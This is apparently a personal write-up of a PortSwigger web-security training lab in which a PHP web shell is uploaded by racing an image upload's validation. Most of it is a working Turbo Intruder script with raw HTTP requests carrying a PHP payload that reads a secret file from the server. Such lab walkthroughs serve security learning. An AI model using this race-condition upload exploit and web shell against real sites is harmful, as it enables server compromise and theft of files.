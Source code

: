 # Lab: Web shell upload via race condition

>This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

>To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

>You can log in to your own account using the following credentials: wiener:peter

### Observations
To my understanding a race condition is a sort of "timing attack". In order to analyze a file, it must first be downloaded or stored in memory. What if I can create a large file and read it before the validation completes (and therefore removes the file from the filesystem)

### Next steps
After some tinkering, I decided to install burp turbo-intruder. I found some template scripts for burp turbo-intruder here https://github.com/PortSwigger/turbo-intruder/tree/master/resources/examples

I will use `race.py` to build off of

<pre>
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
</pre>

**I followed the solution of this lab to get a better understanding of Turbo Intruder**


See the official solution here https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

I followed the above instructions and was able to get the secret. I got held up for a bit because when copying my GET and POST requests, I did not include `\r\n\r\n` (press enter 2 times) at the end of each request

### My final code for turbo intruder
<pre>
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           )
                           
    request1 = '''POST /my-account/avatar HTTP/1.1
Host: acf01fc51f237523c05c1810009000f2.web-security-academy.net
Cookie: session=ZgCH0rGHfGMb37IRB5DR5QpRMI2W1Xm4
Content-Length: 457
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="97", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://acf01fc51f237523c05c1810009000f2.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXhGJnKbJDv4nei6C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://acf01fc51f237523c05c1810009000f2.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryXhGJnKbJDv4nei6C
Content-Disposition: form-data; name="avatar"; filename="lab6.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret');?>

------WebKitFormBoundaryXhGJnKbJDv4nei6C
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryXhGJnKbJDv4nei6C
Content-Disposition: form-data; name="csrf"

6Zc60QAyUce5x0sS3QxsM9UlIdo7VegO
------WebKitFormBoundaryXhGJnKbJDv4nei6C--

'''

    request2 = '''GET /files/avatars/lab6.php HTTP/1.1
Host: acf01fc51f237523c05c1810009000f2.web-security-academy.net
Cookie: session=ZgCH0rGHfGMb37IRB5DR5QpRMI2W1Xm4
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="97", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

'''

    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)
   
def handleResponse(req, interesting):
    table.add(req)

</pre>